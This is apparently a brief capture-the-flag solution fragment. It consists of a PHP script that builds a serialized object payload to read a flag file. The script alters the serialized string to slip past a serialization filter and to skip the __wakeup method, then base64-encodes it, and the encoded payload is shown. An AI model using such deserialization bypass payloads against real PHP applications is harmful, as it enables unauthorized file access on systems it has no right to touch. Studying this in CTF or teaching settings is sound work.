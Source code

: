 

payload：

```php
<?php
class Demo {
    private $file = 'fl4g.php';
}

$str = serialize(new Demo());
$str = str_replace("O:4","O:+4",$str );
$str = str_replace("1:","2:",$str );
echo base64_encode($str);
?>

// TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

